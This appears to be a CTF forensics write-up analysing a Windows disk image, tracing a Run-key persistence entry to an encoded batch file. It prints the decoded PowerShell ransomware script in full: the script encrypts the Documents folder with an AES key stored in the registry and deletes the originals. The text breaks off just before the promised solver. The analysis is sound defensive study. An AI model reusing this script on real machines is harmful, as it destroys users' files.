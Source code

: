 ## Unsolved

The format of given file is AD1 so we need to check it with FTK Imager.

![image](https://github.com/user-attachments/assets/2106c011-7c08-4a26-83fa-5607aa1864de)

There is non-default user **sand-4ECC834FCF** so I tried to analyze it.
In description '.. when he installs something suddenly his device reboots and his files suddenly disappear .. ', we can assume the ransomware need to reboot/login for got executed. In windows you can set what device will do everytime user got login in Registry Key. 

I used Registry Explorer tool to check on registry HCKU:SOFTWARE\Microsoft\Windows\CurrentVersion\Run for malicious entry via NTUSER.DAT

![image](https://github.com/user-attachments/assets/6c1ba36e-b037-41ca-b6dc-cfc2b13853db)

We can know that there is file named **console.bat** was executed. The content of that file is encoded powershell code.

![image](https://github.com/user-attachments/assets/ffd3caf0-fc14-454c-b14d-28582ce9bf3c)

I used powerdecode tool to decode and deobfuscate it and this is the result.

```poweshell
function Encrypt-File {
    param (
        [string]$sourceFilePath,
        [string]$destFilePath,
        [string]$encryptionKey,
        [string]$initVector
    )
    
    $keyBytes = [System.Text.Encoding]::UTF8.GetBytes($encryptionKey)
    $ivBytes = [System.Text.Encoding]::UTF8.GetBytes($initVector)

    # Validate key length (must be 16, 24, or 32 bytes)
    if ($keyBytes.Length -ne 16 -and $keyBytes.Length -ne 24 -and $keyBytes.Length -ne 32) {
        throw "ERROR"
    }
    
    # Validate IV length (must be 16 bytes)
    if ($ivBytes.Length -ne 16) {
        throw "ERROR"
    }

    $aes = New-Object "System.Security.Cryptography.AesManaged"
    $aes.Key = $keyBytes
    $aes.IV = $ivBytes
    $aes.Mode = [System.Security.Cryptography.CipherMode]::CBC
    $aes.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7

    $fileContent = [System.IO.File]::ReadAllBytes($sourceFilePath)
    $encryptor = $aes.CreateEncryptor()
    $encryptedContent = $encryptor.TransformFinalBlock($fileContent, 0, $fileContent.Length)

    # Combine IV and encrypted content
    [byte[]] $finalContent = $aes.IV + $encryptedContent
    $aes.Dispose()

    Write-Output $destFilePath
    $result = [System.IO.File]::WriteAllBytes($destFilePath, $finalContent)
    Write-Output "done"
    Remove-Item -Path $sourceFilePath
}

# Main script
$userDocuments = "C:\Users\" + $Env:UserName + "\Documents"
$sourcePath = $userDocuments
$encryptedFilesPath = "C:\Users\" + $Env:UserName + "\AppData\Local\Microsoft\Garage"

# Create directory for encrypted files
try {
    New-Item -Path $encryptedFilesPath -ItemType Directory -ErrorAction Stop
} catch [System.IO.IOException] {
    "Already Exist!"
}

# Registry path where encryption keys are stored
$registryPath = "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\02e7a9afbb77"
$encryptionKey = (Get-ItemProperty -Path $registryPath -Name "59e2beee1b06")."59e2beee1b06"
$initVector = (Get-ItemProperty -Path $registryPath -Name "076a2843f321")."076a2843f321"

Write-Output $encryptionKey

if (-not (Test-Path -Path $registryPath)) {
    New-Item -ItemType Directory -Path $registryPath
}

# Get all files in the Documents folder
$files = Get-ChildItem -Path $sourcePath -File

# Encrypt each file
foreach ($file in $files) {
    $sourceFile = $file.FullName
    $destFile = Join-Path -Path $encryptedFilesPath -ChildPath $file.Name
    Encrypt-File $sourceFile $destFile $encryptionKey $initVector
}

Write-Output "dones"
```

That script encrypt all files from document folder and save it to \AppData\Local\Microsoft\Garage

![image](https://github.com/user-attachments/assets/73ad78b2-a7ea-4c6e-b27c-52ef936e253c)

From the script we can know the encryption method used is AES CBC using key and iv that stored to HKCU:\Software\Microsoft\Windows NT\CurrentVersion\02e7a9afbb77

![image](https://github.com/user-attachments/assets/94f5538e-de4e-44ec-9d98-8b0babfe7366)

Here is the solver I used :

